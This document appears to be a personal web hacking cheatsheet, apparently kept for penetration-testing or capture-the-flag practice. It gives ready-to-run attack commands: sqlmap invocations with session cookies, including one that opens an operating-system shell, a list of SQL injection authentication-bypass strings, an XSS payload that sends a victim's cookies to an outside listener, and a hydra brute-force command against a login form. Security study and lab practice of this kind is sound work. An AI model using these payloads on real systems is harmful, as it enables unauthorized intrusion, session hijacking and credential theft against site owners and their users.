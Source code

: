 # Web Hacking Cheatsheet

<!--
##################################################################
##################################################################
-->

## Enumeration

### Directory Scan Using Gobuster

`gobuster dir -w /usr/share/seclists/Discovery/Web-Content/name of list -u http://targetURL`

### cURL

#### GET Request

`curl http://targetURL`

#### POST Request

`curl -X POST --data randomdata http://targetURL`

#### File Upload

`curl -F ‘data=@path/to/local/file’ UPLOAD_ADDRESS`

<!--
##################################################################
##################################################################
-->

## SQLI

### Test for SQLI with SQLMAP Using Cookie

`sqlmap -u 'http://website.address?field=to-test' --cookie="PHPSESSID=73jv7pdmjsv7dsspoqtnlv66ls"`

### Use SQLMAP to Get Shell

`sqlmap -u 'http://10.10.10.46/dashboard.php?search=a' --cookie="PHPSESSID=802vjt3crnju4eg3ib0q04ge9v" --os-shell`

### Bypass Authentication with SQL Injection

`' or 1=1 --`

`a' or 1=1 --`

`" or 1=1 --`

`a" or 1=1 --`

`' or 1=1 #`

`" or 1=1 #`

`or 1=1 --`

`' or 'x'='x`

`" or "x"="x`

`') or ('x'='x`

`") or ("x"="x`

<!--
##################################################################
##################################################################
-->

## XSS

### Test for XSS

`Hello!<script>alert("Welcome");</script>`

### XSS Cookie Hijacking

_Start XSS-cookie-stealer.py \*\*\*https://raw.githubusercontent.com/lnxg33k/misc/master/XSS-cookie-stealer.py_

_\*\*https://github.com/s0wr0b1ndef/WebHacking101/blob/master/xss-reflected-steal-cookie.md_

```
<script>
alert(document.cookie);
var i=new Image;
i.src="http://172.30.10.210:8888/?"+document.cookie;
</script>
```

<!--
##################################################################
##################################################################
-->

## [SQLite](https://www.sqlitetutorial.net/sqlite-commands/)

### Access Database

`sqlite3 databasename.db`

### Show Tables

`.tables`

### Show Table Info

`PRAGMA table_info(tablename);`
`.schema tablename`

### Dump Info From Table

`SELECT * FROM customers;`
`.dump tablename`

<!--
##################################################################
##################################################################
-->

## Useful Commands

### Brute Force Web Login

`hydra -L /home/n0m4d1k/usernames -P /usr/share/wordlists/rockyou.txt -t 16 172.30.73.80 http-post-form "/login.php:username=^USER^&password=^PASS^&action=Login:Incorrect username or password"`
